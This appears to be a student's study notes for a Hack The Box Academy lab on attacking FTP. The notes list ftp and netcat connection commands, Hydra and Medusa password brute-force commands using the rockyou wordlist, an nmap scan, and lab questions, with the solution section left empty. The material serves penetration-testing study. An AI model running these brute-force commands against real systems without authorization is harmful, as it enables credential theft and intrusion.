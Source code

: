 [Attacking FTP](https://academy.hackthebox.com/module/116/section/1165)

### Connecting to the FTP server using the ftp client:
```
ftp $TARGET_IP
```
### Connecting to the FTP server using netcat:
```
nc -v $TARGET_IP $PORT
```
### Brute Forcing the FTP service with Hydra:
```
hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP
```
#### Brute Forcing with Medusa:
```
medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp
```


## Questions:
1. What port is the FTP service running on? 

```sudo nmap -sV -sC $TARGET_IP -Pn```
<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/CPTS/Attacking-Common-Services/ftp-nmap-scan.png">

2. What username is available for the FTP server? 

3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

## Solution:
1. 